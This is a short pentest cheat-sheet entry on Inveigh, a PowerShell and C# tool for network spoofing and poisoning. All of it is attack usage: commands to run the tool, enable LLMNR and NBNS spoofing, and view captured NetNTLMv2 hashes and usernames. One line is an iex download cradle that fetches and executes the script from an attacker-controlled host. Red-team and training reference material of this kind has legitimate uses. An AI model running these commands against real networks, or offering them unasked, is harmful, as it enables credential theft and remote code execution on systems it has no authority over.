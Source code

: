 ```yaml
---
tags:
  - tool
---
```

# Inveigh

A tool written in PowerShell and C# for performing various network spoofing and poisoning attacks.

## Capabilities

### Executable

**Note:** Press `esc` for interactive console.

```powershell
# Execute
.\Inveigh.exe

# Check options
.\Inveigh.exe -?

# Only run for 3 minutes (helpful inside psexec)
.\Inveigh.exe -RunTime 3

# View unique NetNTLMv2 hashes captured
GET NTLMV2UNIQUE

# View usernames collected from NetNTLMv2 hashes
GET NTLMV2USERNAMES
```

### Powershell

```powershell
# Import module
Import-Module .\Inveigh.ps1
iex(new-object net.webclient).downloadstring('http://$OUR_IP:$PORT/Inveigh.ps1')

# Check commands
(Get-Command Invoke-Inveigh).Parameters

# Go-to
Invoke-Inveigh -FileOutput Y -RunTime 5

# LLMNR & NBNS spoofing
Invoke-Inveigh -LLMNR Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```
